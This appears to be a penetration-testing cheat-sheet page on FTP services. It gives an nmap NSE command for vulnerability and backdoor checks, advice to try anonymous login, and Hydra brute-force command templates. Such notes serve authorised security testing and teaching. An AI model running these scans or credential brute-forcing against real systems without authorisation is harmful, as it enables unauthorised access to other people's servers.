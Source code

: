 # Background



# Exploit

## Test NSE Common Vulnerabilities
NSE has a number of scripts available to test for common vulnerabilities in this service.
```
nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 [IP]
```

## Anonymous Login
Many FTP servers allow anonymous users to authenticate.  Always attempt to login with anonymous credentials. 
``` 
ftp [IP] username: [anonymous or anon] password: [anonymous or password] 
``` 

## Brute Force
Hydra has a built-in module for attempting usernames and passwords over FTP.
```
hydra -t 1 -L [username list/file] -P [password list/file] -vV ftp://[IP]:21
```
```
hydra -t 1 -C [colon separated username and password list/file] -vV ftp://[IP]:21 
```
